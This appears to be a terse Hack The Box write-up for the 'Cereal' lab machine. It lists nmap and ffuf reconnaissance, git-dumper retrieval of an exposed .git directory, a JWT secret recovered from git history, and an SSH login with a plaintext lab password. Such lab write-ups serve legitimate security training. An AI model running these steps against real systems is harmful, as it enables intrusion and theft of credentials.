 ```
https://10.10.10.217/login
```
![image](https://github.com/user-attachments/assets/5c7d113c-aacd-4556-8a17-01b3ca8d87b2)

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.217
```
![image](https://github.com/user-attachments/assets/063c1d25-bfd8-4859-b1f2-8d9a9bfc2927)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://10.10.10.217/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://cereal.htb/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/6f4937eb-93eb-4c74-9195-6bb7abddaac1)

![image](https://github.com/user-attachments/assets/a6588324-e85d-4bda-a272-4515d3d54104)

```
https://source.cereal.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://source.cereal.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/45d1d706-700a-44eb-908f-9757cf7cb270)

![image](https://github.com/user-attachments/assets/a3f6721e-9fa2-459a-a9bb-e8a2253efff4)

```
git-dumper https://source.cereal.htb/.git /home/itsec/Documents/HTB-Cereal/2
```
![image](https://github.com/user-attachments/assets/81b31c65-c0ac-4714-9e08-8287c83ae335)

```
cat UsersController.cs
cat UserService.cs
```
![image](https://github.com/user-attachments/assets/b629ff41-0599-4c81-87a3-5402448c525f)

![image](https://github.com/user-attachments/assets/9559eb56-d0a4-4154-97bd-06d8fbd7414f)

```
git log –p
secretlhfIH&FY*#oysuflkhskjfhefesf
```
![image](https://github.com/user-attachments/assets/3a125a01-fce2-4dcd-a3fb-8b7d5d431352)

![image](https://github.com/user-attachments/assets/0406c72d-9d63-45ae-bf60-9620f899015f)

```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/5ead8bdf-a080-4cb3-9a75-768775ae6077)


```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/93fc213e-54eb-4849-9bf9-e260be27f9a9)
